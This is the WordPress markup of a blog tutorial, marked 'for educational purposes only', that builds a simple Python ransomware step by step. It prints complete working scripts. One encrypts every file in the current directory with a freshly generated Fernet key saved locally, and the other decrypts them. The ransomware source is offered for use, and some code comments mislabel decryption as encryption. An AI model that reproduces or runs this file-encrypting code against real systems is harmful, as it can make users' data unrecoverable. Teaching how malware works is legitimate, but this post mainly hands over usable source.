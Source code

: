 <!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>Introduction</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><em>For educational purposes only</em></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This article showcases a simple python ransomware one can create in order to educate on the concepts of malware. It consists of utilizing the following python modules:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>os <a href="https://docs.python.org/3/library/os.html" data-type="URL" data-id="https://docs.python.org/3/library/os.html" target="_blank" rel="noreferrer noopener">https://docs.python.org/3/library/os.html</a></li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>cryptography</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Fernet <a href="https://cryptography.io/en/latest/fernet/" data-type="URL" data-id="https://cryptography.io/en/latest/fernet/" target="_blank" rel="noreferrer noopener">https://cryptography.io/en/latest/fernet/</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>Prerequisites</strong></p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>The program is conducted in the Linux environment </li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Only test the program in a virtual machine setting</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Please do not run the encryption program multiple times before decryption as this will generate new encryption keys and the files will be lost forever</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>This is a simple ransomware and will not be able to bypass AV</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Key can be obtained by reverse engineering</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"pale-cyan-blue"} -->
<p class="has-text-align-center has-pale-cyan-blue-background-color has-background"><strong>Part I</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step 1</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>First let's create some files to be encrypted for this program.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4016,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-14.png?w=1024" alt="" class="wp-image-4016"/><figcaption class="wp-element-caption">3 text files as an example.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>2</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's start writing out script.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This part of the program finds actual files in the directory and adds them to a list.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4018,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-15.png?w=1024" alt="" class="wp-image-4018"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>os.listdir() function </em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4021,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-17.png?w=801" alt="" class="wp-image-4021"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4019,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-16.png?w=802" alt="" class="wp-image-4019"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>3</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Import the key to encrypt the files.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4025,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-19.png?w=727" alt="" class="wp-image-4025"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4023,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-18.png?w=718" alt="" class="wp-image-4023"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Generate the encryption key.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4027,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-20.png?w=1024" alt="" class="wp-image-4027"/><figcaption class="wp-element-caption"><em>**Remember to delete the print(key) once done testing.**</em></figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4029,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-21.png?w=818" alt="" class="wp-image-4029"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>4</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Save the generated key in a file and add the key file to not be encrypted in the program.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4030,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-22.png?w=1024" alt="" class="wp-image-4030"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Test the newly added lines</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4031,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-23.png?w=1024" alt="" class="wp-image-4031"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>5</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's add the encryption code.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4035,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-25.png?w=1024" alt="" class="wp-image-4035"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>Fernet encryption function.</em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4038,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-26.png?w=686" alt="" class="wp-image-4038"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Files are encrypted.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4033,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-24.png?w=1024" alt="" class="wp-image-4033"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>The full encryption code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:syntaxhighlighter/code {"language":"python"} -->
<pre class="wp-block-syntaxhighlighter-code">#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Locate files in the directory

files = []

for file in os.listdir():
        if file == 'encrypt.py'or file == 'encrypt.key':   # Not to decrypt the actual program
                continue
        if os.path.isfile(file):                           # Append any text files to the list
                files.append(file)

print(files)

key = Fernet.generate_key()

with open("encrypt.key","wb") as encryptkey:               # Make a file with write permissions
        encryptkey.write(key)                              # Write the encrypt key to the file

for file in files:
        with open(file,"rb") as contents:
                targets = contents.read()                 # Read the files
        targets_encrypted = Fernet(key).encrypt(targets)  # Encrypts all the files
        with open(file,"wb") as contents:                 # Write the files
                contents.write(targets_encrypted)         # Write the encrypted data to the files
</pre>
<!-- /wp:syntaxhighlighter/code -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"pale-cyan-blue"} -->
<p class="has-text-align-center has-pale-cyan-blue-background-color has-background"><strong>Part II</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's create our decrypt program which is similar to our encrypt program.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step 1</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Copy the encrypt program to a new file calldecrypt.py.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4040,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-27.png?w=1024" alt="" class="wp-image-4040"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>2</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Edit the file with the following:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Remove the generate key function</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Save the encryption key to a new variable</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Edit the Fernet function to decrypt </li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Change the write function to the decrypted content</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4046,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-30.png?w=1024" alt="" class="wp-image-4046"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>Fernet decryption function.</em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4050,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-32.png?w=699" alt="" class="wp-image-4050"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph {"backgroundColor":"vivid-red"} -->
<p class="has-vivid-red-background-color has-background"><strong><em>**Before running the decrypt program , remember to add decrypt.py file in the encrypt.py file list**</em></strong></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4045,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-29.png?w=1024" alt="" class="wp-image-4045"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>The full decryption code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:syntaxhighlighter/code {"language":"python"} -->
<pre class="wp-block-syntaxhighlighter-code">#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Locate files in the directory

files = []

for file in os.listdir():
        if file == 'encrypt.py'or file == 'encrypt.key' or file =='decrypt.py':   # Not to decrypt the actual program
                continue
        if os.path.isfile(file):                           # Append any text files to the list
                files.append(file)

print(files)

with open("encrypt.key","rb") as key:                           # Add the key to a variable secretkey
        secretkey = key.read()

for file in files:
        with open(file,"rb") as contents:
                targets = contents.read()                       # Read the files
        targets_decrypted = Fernet(secretkey).decrypt(targets)  # Encrypts all the files
        with open(file,"wb") as contents:                       # Write the files
                contents.write(targets_decrypted)               # Write the encrypted data to the files</pre>
<!-- /wp:syntaxhighlighter/code -->

<!-- wp:paragraph -->
<p>Files are decrypted.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4047,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-31.png?w=1024" alt="" class="wp-image-4047"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's test the entire process again.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4064,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-33.png?w=1024" alt="" class="wp-image-4064"/></figure>
<!-- /wp:image -->
